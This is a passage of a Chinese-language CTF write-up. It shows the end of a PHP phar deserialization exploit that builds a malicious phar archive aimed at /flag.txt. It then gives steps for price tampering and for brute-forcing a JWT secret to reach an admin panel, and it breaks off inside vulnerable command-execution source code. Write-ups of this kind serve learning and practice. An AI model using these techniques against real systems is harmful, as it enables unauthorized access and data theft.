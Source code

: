 ```php

    public function __call($func, $args) {
        array_push($this->funcs, $func);
        foreach ($this->files as $file) {
            $this->results[$file->name()][$func] = $file->$func();
        }
    }

}
class File {
    public $filename="/flag.txt";
}

$a=new User();
@unlink("phar.phar");
$phar = new Phar("phar.phar"); //后缀名必须为phar,phar伪协议不用phar后缀
$phar->startBuffering();
$phar->setStub("<?php __HALT_COMPILER(); ?>");

$phar->setMetadata($a); //将自定义的meta-data存入manifest
$phar->addFromString("test.txt", "test"); //添加要压缩的文件
//签名自动计算
$phar->stopBuffering();


?>
```



### ikun



修改account参数可以修改价格

爬虫找到lv6,修改account购买进入b1g_m4mber



爆破jwt的密钥为`1Kun`,进入管理员后台

```html
<!-- 潜伏敌后已久,只能帮到这了 -->
<a href="/static/asd1f654e683wq/www.zip" ><span style="visibility:hidden">删库跑路前我留了好东西在这里</span></a>
<div class="ui segments center padddd">
<!-- 对抗*站黑科技，目前为测试阶段，只对管理员开放 -->
```



拿到网站源码

### online tool

```php
<?php

if (isset($_SERVER['HTTP_X_FORWARDED_FOR'])) {
    $_SERVER['REMOTE_ADDR'] = $_SERVER['HTTP_X_FORWARDED_FOR'];
}

if(!isset($_GET['host'])) {
    highlight_file(__FILE__);
} else {
    $host = $_GET['host'];
    $host = escapeshellarg($host);
    $host = escapeshellcmd($host);
    $sandbox = md5("glzjin". $_SERVER['REMOTE_ADDR']);
```